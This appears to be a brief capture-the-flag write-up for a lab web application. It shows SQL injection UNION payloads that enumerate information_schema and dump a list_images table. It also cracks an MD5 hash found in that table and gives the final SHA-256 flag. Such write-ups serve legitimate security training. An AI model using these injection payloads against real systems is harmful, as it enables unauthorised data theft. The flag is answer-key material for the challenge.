 
http://10.12.100.231/?page=member

5 UNION SELECT table_name, column_name FROM information_schema.columns

First name: list_images

Surnames : title, url, comment

http://10.12.100.231/?page=searchimg

`5 UNION SELECT title, comment FROM list_images`

`ID: 5 UNION SELECT title, comment FROM list_images` 

Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

[md5_decrypt](https://www.md5online.org/md5-decrypt.html) (1928e8083cf461a51303633093573c46) = albatroz

[Sha256](https://md5decrypt.net/en/Sha256/)(albatroz) = `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

